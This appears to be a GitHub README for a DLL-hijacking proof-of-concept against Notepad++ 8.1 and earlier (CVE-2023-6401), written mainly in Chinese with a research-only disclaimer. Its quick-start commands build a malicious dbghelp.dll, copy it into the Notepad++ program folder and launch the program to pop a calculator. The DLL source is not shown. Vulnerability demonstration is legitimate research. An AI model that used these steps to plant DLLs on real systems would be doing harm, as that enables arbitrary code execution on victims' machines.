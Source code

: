 # CVE-2023-6401 · DLL Hijacking Proof-of-Concept

[![License](https://img.shields.io/badge/License-MIT-blue.svg)](LICENSE)
[![Platform](https://img.shields.io/badge/Platform-Windows-lightgrey.svg)](https://www.microsoft.com/windows)

[English](#english) | [中文](#中文)

---

## 中文

> ⚠️ **重要聲明：僅供安全研究和教育目的使用**

NotePad++ ≤ 8.1 DLL劫持漏洞的概念驗證。通過在應用程式目錄放置惡意 `dbghelp.dll` 來執行任意程式碼。

### 快速開始

```bash
# 下載專案
git clone https://github.com/mekitoci/CVE-2023-6401.git

# 進入專案目錄
cd CVE-2023-6401-main

# 編譯DLL
# gcc -shared -o dbghelp.dll dbghelp.c -Wall -Wl,--subsystem,windows

# 部署到NotePad++目錄
copy dbghelp.dll "C:\Program Files\Notepad++\"

# 執行測試
"C:\Program Files\Notepad++\notepad++.exe"

# 立即清理
del "C:\Program Files\Notepad++\dbghelp.dll"
```

**預期結果：** 計算器彈出 + 訊息框顯示 + NotePad++正常啟動
